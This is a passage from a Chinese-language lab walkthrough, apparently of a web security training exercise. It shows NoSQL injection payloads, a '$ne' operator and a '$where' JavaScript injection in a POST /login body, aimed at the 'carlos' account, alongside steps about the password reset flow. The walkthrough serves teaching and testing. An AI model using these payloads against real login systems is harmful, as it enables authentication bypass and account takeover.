 ```plain
{"$ne":"invalid"}
```

![图片](assets/1711872140-b2732797618d3dd338e41633edb66983.webp)

Step 3：重置 carlos 帐户的密码，当您提交 carlos 用户名时，重置机制涉及电子邮件验证，因此您无法自己重置帐户

![图片](assets/1711872140-1a8d301c0c7abf91b1dbdfe542d6edd0.webp)

Step 5：随后回到登录的请求包中，使用"POST /login"请求来测试应用程序是否易受 JavaScript 注入的攻击

```plain
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```

![图片](assets/1711872140-9efeaed7c018401b15f5bd331d1d438a.webp)
